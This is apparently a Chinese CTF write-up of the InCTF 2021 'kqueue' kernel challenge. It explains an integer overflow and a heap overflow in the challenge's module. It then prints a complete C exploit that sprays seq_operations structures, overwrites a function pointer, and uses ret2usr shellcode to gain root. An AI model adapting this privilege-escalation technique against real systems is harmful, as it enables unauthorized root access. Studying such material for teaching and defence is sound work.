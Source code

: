 ```yaml
---
layout: post
tags: [kernel_pwn]
title: "InCTF 2021 kqueue 复现(heap overflow)"
author: wsxk
date: 2022-10-25
comments: true
---
```


- [题目分析<br>](#题目分析)
- [利用思路<br>](#利用思路)
- [exp<br>](#exp)
- [references<br>](#references)

## 题目分析<br>
原件可以在[https://github.com/teambi0s/InCTFi/tree/master/2021/Pwn/Kqueue](https://github.com/teambi0s/InCTFi/tree/master/2021/Pwn/Kqueue)里下载。<br>
这道题是给了源码的，可以通过查看源码来观察该ko文件到底做了些什么。<br>
从源文件中可以看到，kqueue这道题目只提供了一个ioctl接口，根据其中输入的`cmd`，以及传入的request来创造`queue`<br>
这道题目的每个函数看起来check很多，其实——都没有什么卵用，原因可以看代码:
```c
static long err(char* msg){
    printk(KERN_ALERT "%s\n",msg);
    return -1;
}
```
可以看到，用来报错的`err`函数，其并不会结束程序的流程，反而会让程序继续运行，就在内核缓冲区里打了个报错消息。<br>
因而存在了整型溢出问题以及堆溢出的问题。<br>

## 利用思路<br>
首先，这道题目并没有开启`smap/smep`以及`kpti`<br>
但是开启了`kaslr`<br>
> 1. step1:利用整型溢出
> > 因为程序中的判断都是`i < request.max_entries+1`，这种情况下，可以使得max_entries为0xffffffff来造成溢出，而又因为max_entries很大造成访问越界。
> 2. step2:heap overflow + heap spray提高命中率
> > `save_kqueue_entries`函数中可以进行越界操作，其调用了`char *new_queue = validate((char *)kzalloc(queue->queue_size,GFP_KERNEL));`创建了0x20大小的chunk，但是` validate(memcpy(new_queue,queue->data,request.data_size));`确实根据我们传入的data_size来对队列进行拷贝操作。因为0x20大小的chunk在`kamlloc-32`中，而内核中` seq_operations`结构体的大小刚刚好为0x20，换句话说，他们和new_queue分配在同一个page的概率十分大，可以通过heap overflow来覆盖`seq_operations`中的函数指针。
> > > 
> > 可以通过`open("/proc/self/stat", O_RDONLY);`函数多次创建`seq_operations`结构体，然后使用通过`save_queue_entries`的溢出覆盖其中一个`seq_operations`的内容。<br>
> 3. step3: ret2usr 劫持控制流
> >  `seq_operations`的 中的函数指针可以改成用户态的shell地址。但是因为不知道内核的基地址（开启了kaslr），但是也有解决办法，利用栈的调用机制，在内核`call`了`seq_operations`的函数后，会把调用地址压栈。<br>

根据对vmlinux的逆向以及linux源码分析，判断调用发生在
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221027190833.png)<br>
（该位置是seq_read）的函数地址。<br>
随后我们可以根据该地址和`prepare_kernel_cred`和`commit_cred`的偏移得到真实地址。<br>

## exp<br>
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

size_t commit_creds=0;
size_t prepare_kernel_cred =0;

size_t user_cs;
size_t user_ss;
size_t user_sp;
size_t user_rflags;
void save_status(void){
    __asm__(
        "mov user_cs,cs;"
        "mov user_ss,ss;"
        "mov user_sp,rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void get_root_shell(void){
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }
    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

//ret2usr
void get_root_privilege(){
    //printf("use ret2usr\n"); //don't use user func in kernel space!
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

long dev_fd;
size_t root_rip;
typedef struct{
    u_int32_t max_entries;
    u_int16_t data_size;
    u_int16_t entry_idx;
    u_int16_t queue_idx;
    char* data;
}request_t;

void create_queue(u_int32_t max_entries, u_int16_t data_size)
{
    request_t req = 
    {
        .max_entries    = max_entries,
        .data_size      = data_size,
    };
    ioctl(dev_fd, 0xDEADC0DE, &req);
}

void edit_queue(u_int16_t queue_idx,u_int16_t entry_idx,char *data)
{
    request_t req =
    {
        .queue_idx  = queue_idx,
        .entry_idx  = entry_idx,
        .data       = data,
    };
    ioctl(dev_fd, 0xDAADEEEE, &req);
}

void delete_queue(u_int16_t queue_idx)
{
    request_t req = 
    {
        .queue_idx = queue_idx,
    };
    ioctl(dev_fd, 0xBADDCAFE, &req);
}

void save_queue(u_int16_t queue_idx,u_int32_t max_entries,u_int16_t data_size)
{
    request_t req =
    {
        .queue_idx      = queue_idx,
        .max_entries    = max_entries,
        .data_size      = data_size,
    };
    ioctl(dev_fd, 0xB105BABE, &req);
}

void shellcode(void)
{
    __asm__(
        "mov r12, [rsp + 0x8];"
        "sub r12, 0x201179;"
        "mov r13, r12;"
        "add r12, 0x8c580;"  // prepare_kernel_cred
        "add r13, 0x8c140;"  // commit_creds
        "xor rdi, rdi;"
        "call r12;"
        "mov rdi, rax;"
        "call r13;"
        "swapgs;"
        "mov r14, user_ss;"
        "push r14;"
        "mov r14, user_sp;"
        "push r14;"
        "mov r14, user_rflags;"
        "push r14;"
        "mov r14, user_cs;"
        "push r14;"
        "mov r14, root_rip;"
        "push r14;"
        "iretq;"
    );
}




int main(){
    size_t  data[0x20];
    long  seq_fd[0x200];

    save_status();
    root_rip = get_root_shell;
    dev_fd = open("/dev/kqueue",O_RDONLY);
    if (dev_fd < 0){
        printf("FAILED to open the dev!\n");
        exit(-1);
    }
    for (int i = 0; i < 0x20; i++)
        data[i] = (size_t) shellcode;
    create_queue(0xffffffff,8*0x20);
    edit_queue(0,0,data);
    for (int i = 0; i < 0x200; i++)
        seq_fd[i] = open("/proc/self/stat", O_RDONLY);
    save_queue(0,0,0x40);
    for (int i = 0; i < 0x200; i++){
        printf("seq num%d\n",i);
        read(seq_fd[i], data, 1);
    }
}
```


## references<br>
[https://bbs.pediy.com/thread-269031.htm](https://bbs.pediy.com/thread-269031.htm)<br>
[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x05-Kernel-Heap-Heap-Overflow](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x05-Kernel-Heap-Heap-Overflow)<br>
